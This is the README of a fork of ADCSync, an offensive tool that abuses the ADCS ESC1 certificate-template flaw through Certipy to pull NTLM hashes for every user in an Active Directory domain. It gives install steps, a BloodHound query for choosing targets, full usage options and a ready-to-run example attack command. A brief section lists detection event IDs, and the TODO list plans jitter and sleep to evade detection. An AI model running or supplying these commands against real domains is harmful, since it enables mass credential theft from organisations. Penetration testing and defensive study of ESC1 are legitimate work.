

# ADCSsync

This is a tool I whipped up together quickly to DCSync utilizing ESC1. It is quite slow but otherwise an effective means of performing a makeshift DCSync attack without utilizing [DRSUAPI](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync) or [Volume Shadow Copy](https://book.hacktricks.xyz/windows-hardening/stealing-credentials#volume-shadow-copy). 

This is the first version of the tool and essentially just automates the process of running Certipy against every user in a domain. It still needs a lot of work and I plan on adding more features in the future for authentication methods and automating the process of finding a vulnerable template.

## Fork Update

This fork supports proxychains, both bloodhound formats such as raw users.json from SharpHound.exe or manually exported JSON from the old BloodHound.
It will also skip accounts that it already got hashes from and resume where you left off if you get disconnected for whatever reason during runtime.
Various other nice to haves.
There are multiple scripts, adcsync.py is single-threaded. The ADCSync_multi_.py files are all multi-threaded with 4 workers by default using Python's ThreadPoolExecutor.
This also supports the -sid flag in Certipy which is now required for ESC1.
You can choose which users you want to target. Export whatever custom BloodHound neo4j query results to a JSON file that contains the desired accounts.
For example:

```sql
MATCH p = (d:Domain {name: "AD.CORP.LOCAL"})-[r:Contains*1..]->(u:User) WHERE NOT u.name starts with 'KRBTGT' RETURN u
```

## Introduction

ADCSync uses the ESC1 exploit to dump NTLM hashes from user accounts in an Active Directory environment. The tool will first grab every user and domain in the Bloodhound dump file passed in. Then it will use Certipy to make a request for each user and store their PFX file in the certificate directory. Finally, it will use Certipy to authenticate with the certificate and retrieve the NT hash for each user. This process is quite slow and can take a while to complete but offers an alternative way to dump NTLM hashes. 


## Installation

```shell
git clone https://github.com/mr-pmillz/ADCSync.git
cd ADCSync
virtualenv -p python3 venv
source venv/bin/activate
python3 -m pip install -r requirements.txt

# if environment is using ldap channel binding, need to run the following also until certipy v5 is released:
python3 -m pip install git+https://github.com/ly4k/ldap3 # support for ldap channel binding in certipy v4.8.2
```

## Usage

To use this tool we need the following things:

1. Valid Domain Credentials
2. A user list from a bloodhound dump that will be passed in.
3. A template vulnerable to ESC1 (Found with Certipy find)


```shell
# python3 ADCSync_multi_log_full_with_retry.py --help

usage: ADCSync_multi_log_full_with_retry.py [-h] -f FILE -o OUTPUT -ca-name CA_NAME
                                            -dc-ip DC_IP -dc-fqdn DC_FQDN -u USER
                                            -p PASSWORD -template TEMPLATE -target TARGET
                                            [-t THREADS] [-debug] [-proxychains]

Retrieve NTLM hashes via ADCS ESC1 technique.

options:
  -h, --help            show this help message and exit
  -f, --file FILE       Input User List JSON file from Bloodhound
  -o, --output OUTPUT   NTLM Hash Output file
  -ca-name CA_NAME      Certificate Authority
  -dc-ip DC_IP          IP Address of Domain Controller
  -dc-fqdn DC_FQDN      FQDN of Domain Controller
  -u, --user USER       Username
  -p, --password PASSWORD
                        Password
  -template TEMPLATE    Template Name vulnerable to ESC1
  -target TARGET        CA FQDN
  -t, --threads THREADS
                        Number of threads to use. (default=4)
  -debug                Show verbose debugging information
  -proxychains          Use proxychains4
```

Example command:

```shell
python3 ADCSync_multi_log_full_with_retry.py -f all-ad.corp.local-users.json \
-o dcsync.txt \
-ca-name FOO-CA \
-dc-ip 10.10.10.10 \
-dc-fqdn cool-dc1.ad.corp.local \
-u 'coolbeans@ad.corp.local' \
-p 'PASSWORDHERE' \
-template VULN-ESC1-TEMPLATE-NAME \
-target CA-FQDN.ad.corp.local \
-proxychains \
-debug
```

## Detection

By default, ADCS does not monitor/audit the following event logs.

* Event ID 4898: This event is generated every time a certificate template is loaded during enrollment. It records - in detail - the properties and security descriptor of the certificate template.
* Event ID 4887: This event is generated when a certificate is successfully issued to a user.
* Event ID 4888: This event is generated when a certificate request is denied.

In order to enable auditing for these events, you need to check all the following boxes in the ADCS Certificate Authority -> Properties -> Auditing configuration, and apply the settings.



## TODO

* Support alternative authentication methods such as NTLM hashes and ccache files
* Automatically run "certipy find" to find and grab templates vulnerable to ESC1
* Add jitter and sleep options to avoid detection
* Add type validation for all variables


## Acknowledgements

* [puzzlepeaches](https://github.com/puzzlepeaches): Telling me to hurry up and write this
* [ly4k](https://github.com/ly4k/Certipy): For Certipy
* [WazeHell](https://github.com/WazeHell/vulnerable-AD): For the script to set up the vulnerable AD environment used for testing
